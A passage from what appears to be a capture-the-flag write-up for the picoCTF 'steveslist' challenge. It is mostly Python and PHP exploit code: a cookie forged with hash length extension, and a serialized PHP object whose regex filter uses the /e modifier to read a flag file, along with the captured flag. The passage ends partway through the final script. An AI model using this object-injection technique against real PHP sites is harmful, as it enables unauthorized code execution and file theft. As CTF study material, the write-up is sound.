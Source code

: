 ```python

output = php_urlencode(cookie)
cookies = {'custom_settings_hash': cookie_hash,
           'custom_settings': output}
results = requests.get(url, cookies=cookies).text
print [line for line in results.split('\n') if 'yay_flag' in line]
```

And we get our flag:
```python
$ python win2.py 
[u'<!-- POST yay_flag: D43d4lu5_w45_h3r3_w1th_s3rialization_chief_steve']

```

## Final Exploit

```python
import subprocess
import urllib
import commands
import sys
import hlextend
import urllib2
import cookielib
import requests
import subprocess

def php_urlencode(s):
    '''Return php urlencoded string'''
    s = s.replace("\x00", "\0")
    encode_php = "<?php $text = <<<EOD\n{}\nEOD;\necho urlencode($text);\n?>".format(s)

    with open('encode_me.php', 'w') as f:
        f.write(encode_php)

    output = subprocess.check_output('php encode_me.php', shell=True)
    return output

url = 'http://steveslist.picoctf.com'
flag_file = '/home/daedalus/flag.txt'
php_script = """
<?php
require_once('steves_list_backup/includes/classes.php');
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\\\'{}\\\')')];

$text = "file_get_contents";
$text = htmlspecialchars($text);

$title = "yay_flag";
$title = htmlspecialchars($title);

$post = new Post($title, $text, $filter);

$post_ser = serialize($post);

$ser = $post_ser;
echo $ser;
?>
""".format(flag_file)

with open('phpscript.php', 'w') as f:
    f.write(php_script)

```